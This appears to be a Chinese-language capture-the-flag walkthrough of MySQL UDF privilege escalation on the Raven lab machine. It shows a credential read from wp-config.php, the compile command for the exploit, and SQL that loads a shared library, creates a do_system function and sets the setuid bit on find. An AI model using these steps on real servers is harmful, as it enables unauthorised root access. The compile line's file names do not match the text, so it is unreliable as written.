






## MySQL UDF 提权

就是利用MySQL的自定义函数功能。

#### UDF简介

UDF（user-defined function）是MySQL的一个拓展接口，也可称为用户自定义函数，是用来拓展MySQL数据库功能的一种技术。用户通过自定义函数可以实现在MySQL中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，就像调用本机函数（例如ABS()或SOUNDEX()）一样方便。UDF官方介绍及其函数定义请参考如下页面。

- http://dev.mysql.com/doc/refman/5.5/en/adding-functions.html
- https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html

#### 利用条件：

1、需要有MySQL root账号的密码
2、MySQL需要以root权限运行。

### 实例 - Raven靶机

- 使用 searchsploit 从 exploit-db 中搜索相关的 exploit ：


- 这里选择 1518.c 进行下载：


- 查看 1518.c 可看到使用说明：


- 进入 `/var/www/html/wordpress` 目录中搜索 `wp-config.php` 文件，因为该文件中记录着 MySQL 的用户名/密码，可看到：`root/R@v3nSecurity`


- 然后，再将 1518.c 编译成共享库：
```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
- 编译后生成 1518.so，并将它下载到靶机中： /tmp/1518.so
接着，使用得到的 MySQL root密码，进入 MySQL shell：


- 依次执行如下语句：
```
#创建一个表，名为 foo
create table foo(line blob); 

#将 1518.so 导入 foo 表
insert into foo values(load_file('/tmp/1518.so'));

#将1518.so转储到 /usr/lib/mysql/plugin 目录中
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so'; 

#最重要的一步，创建一个名为 do_system 的 UDF 函数，它将调用实现该函数的代码
create function do_system returns integer soname '1518.so'; 

#调用do_system() 函数，执行chmod 命令，对 /usr/bin/find 设置 sticky 位
select do_system('chmod u+s /usr/bin/find');
```

- 此时，回到 `/tmp` 目录，使用 `find` 命令，成功提权



#### Reference

https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html